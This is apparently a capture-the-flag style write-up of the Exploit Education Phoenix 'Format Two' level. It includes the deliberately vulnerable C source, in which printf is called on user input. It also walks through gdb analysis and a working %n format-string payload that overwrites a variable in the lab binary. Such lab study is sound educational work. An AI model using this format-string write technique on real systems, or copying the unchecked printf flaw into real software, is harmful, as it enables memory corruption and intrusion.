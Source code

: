 ```yaml
---
title: "Format Two"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

The goal of this level is to use the format string vulnerability to write to a memory address **changeme**.

```
$ gdb -q /opt/phoenix/amd64/format-two
Reading symbols from /opt/phoenix/amd64/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+115>:	call   0x40066d <bounce>
   0x0000000000400705 <+120>:	mov    eax,DWORD PTR [rip+0x2003e5]        # 0x600af0 <changeme>
   0x000000000040070b <+126>:	test   eax,eax
.....
```

Here we can see the address we want to write to is **0x600af0** which is not exploitable because it has bad characters that will terminate the input and ignore everything after it :(

Bad characters:

- \x00	(Null)
- \x09	(Tab)
- \x0a	(New line)
- \x0d	(Carriage return)
- \x20	(Space)

So we switch gears to the 32bit binary.

```
$ gdb -q /opt/phoenix/i486/format-two 
Reading symbols from /opt/phoenix/i486/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0804859b <+111>:	call   0x8048515 <bounce>
   0x080485a0 <+116>:	add    esp,0x10
   0x080485a3 <+119>:	mov    eax,ds:0x8049868
   0x080485a8 <+124>:	test   eax,eax
....
```

Now the address of **changeme** is **0x8049868**, good.

First we should know where our input is stored in the stack.

```
$ /opt/phoenix/i486/format-two "AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd89b 100 0 f7f84b67 ffffd6f0 ffffd6d8 80485a0 ffffd5d0 ffffd89b 100 3e8 41414141 25207825 78252078 20782520 25207825Better luck next time!
```

We can see our input **41414141** which is **AAAA** at offset 12.

To write to an address we user the **%n** which writes the number of characters so far to a memory address.

So we can replace **AAAA** with the address of **changeme** and replace the last **%x** with **%n** to write to that address.

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %x \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8 8049868 
Better luck next time!
```

Notice we write the address in little endian.

We could also use the direct parameter access format using **%12$x** instead of all these **%x** but it doesn't work all the time (and apparently doesn't work here).

# Solution:

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8  
Well done, the 'changeme' variable has been changed correctly!
```